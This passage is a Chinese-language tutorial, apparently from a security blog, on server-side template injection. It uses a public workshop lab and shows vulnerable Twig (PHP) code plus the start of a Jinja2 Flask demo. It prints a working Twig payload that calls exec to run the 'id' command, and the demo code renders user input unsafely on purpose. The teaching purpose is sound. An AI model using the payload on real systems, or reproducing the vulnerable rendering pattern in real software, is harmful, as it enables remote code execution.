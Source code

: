 ## 3 几个Demo
&ensp;&ensp;&ensp;&ensp;相关的练习可以从下述地址下载：
https://github.com/GoSecure/template-injection-workshop

### 3.1 Twig (PHP)

 根据上述的地址下载代码并执行
![image.png](http://moonsec.top/articlepic/7162bbdce181f7abad73a315b7ccb2d3.png)
尝试下输入{{7*7}}
![image.png](http://moonsec.top/articlepic/9ce7158cf4d07a11383c2e1a9a37b26c.png)
查看对应的源码
```txt
include('vendor/twig/twig/lib/Twig/Autoloader.php');
if (isset($_POST['email'])) {
    $email=$_POST['email'];

    Twig_Autoloader::register();
    try {
        $loader = new Twig_Loader_String();
        $twig = new Twig_Environment($loader);

        $result= $twig->render("Thanks {$email}. You will be notified soon.");
        echo $result;

    } catch (Exception $e) {
        echo $e->getMessage();
    }
}

```
通过$twig->render("Thanks {$email} 解析了前台输入的内容
$twig 是一个变量_self，它公开了一些内部 Twig API。这是为利用该registerUndefinedFilterCallback功能而创建的恶意负载。在下面的有效负载中，id执行命令返回当前用户 (Linux) 的 id。
```txt
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```
![image.png](http://moonsec.top/articlepic/6742341ccfca3d97a082fa2be09fbf8d.png)

### 3.2 Jinja2（Python）
利用源码做简单的修改，咱们做个demo
```py
from flask import Flask, request, session, g, redirect, url_for, abort, render_template, flash, Response
from jinja2 import Environment
from datetime import date

app = Flask(__name__)
Jinja2 = Environment()


# app.config.from_pyfile('config.py')


@app.route("/gen_vcard", methods=['POST'])
def gen_vcard():
    name = request.values.get('name')
    if (name is None): name = "Anonymous"
    org = request.values.get('org')
    phone = request.values.get('phone')
    email = request.values.get('email')

    d = date.today()
```